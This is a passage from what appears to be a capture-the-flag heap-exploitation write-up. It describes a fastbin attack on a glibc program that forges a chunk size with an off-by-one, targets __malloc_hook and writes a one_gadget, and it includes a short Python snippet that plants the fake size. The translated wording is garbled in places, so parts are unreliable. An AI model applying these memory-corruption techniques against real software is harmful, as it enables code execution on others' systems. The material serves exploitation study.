 ```
```







```
libc : 0x7ffff7a23d28 ("malloc_hook")
```



At this time our FD is already near the malloc hook and is not ready for blasting.


### Step 2


We only need to release the fix by releasing a chunk of size 0x71.






### Step 3


Take advantage of unsortebin's attacking techniques and use the editing function to write onegadet.






## Exp Analysis






Assign `3` `chunk`, set `p64(0x61)` at `B + 0x78`, the function is `fake size` for the following `fastbin attack`




```python
create(0x18,0) # 0x20
create(0xc8,1) # d0
create(0x65,2)  # 0x70

info("create 2 chunk, 0x20, 0xd8")
fake = "A"*0x68
fake += p64(0x61)  ## fake size
edit(1,fake)
info("fake")
```



Release `B` and assign the same size again to `B`, where `B+0x10` and `B+0x18` have the address of `main_arean`. Assign `3` `fastbin` and `off by one` to modify `B->size = 0x71`

